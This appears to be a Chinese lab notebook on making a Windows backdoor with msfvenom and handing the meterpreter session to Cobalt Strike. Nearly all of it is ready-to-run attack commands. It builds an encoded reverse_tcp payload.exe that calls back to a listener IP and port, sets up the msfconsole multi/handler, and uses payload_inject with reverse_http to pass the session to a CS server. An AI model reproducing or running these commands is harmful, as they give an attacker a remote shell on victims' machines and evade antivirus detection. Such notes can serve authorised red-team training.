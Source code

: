 2.1 使用msf创建后门

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe

把该后门文件payload.exe放入到靶机。

2.3 配置监控并获取meterpreter

启动msf

> msfconsole

创建监控

use exploit/multi/handler

加载payload

set payload windows/meterpreter/reverse_tcp

配置监控参数

show options

set lhost   监控IP

set lport   监控端口

run  执行

![image-20240920165932163](Clbalt Strikeb笔记/image-20240920165932163.png)	

去靶机执行后门程序 等待返回 meterpreter

2.4 后台当前session

background

## 3 使用CS进行监控

1 加载MSF的payload 注入功能

use exploit/windows/local/payload_inject

2 设置payload

set payload windows/meterpreter/reverse_http

3   查看配置参数

show options

set lhost 设置为cobal strike服务器的ip地址。

set lport 6666设置cs监听端口

set session 1设置cs需要监听的msf会话。

![image-20240920170112019](Clbalt Strikeb笔记/image-20240920170112019.png)	

设置监控会话

6 set disablepayloadhander true

设置当前msf不接受监听数据

7 run

执行设置

于是CS即可收到msf注入的会话，甚至CS无需添加监听器都能接收到这个msf会话。

![image-20240920170855175](Clbalt Strikeb笔记/image-20240920170855175.png)	
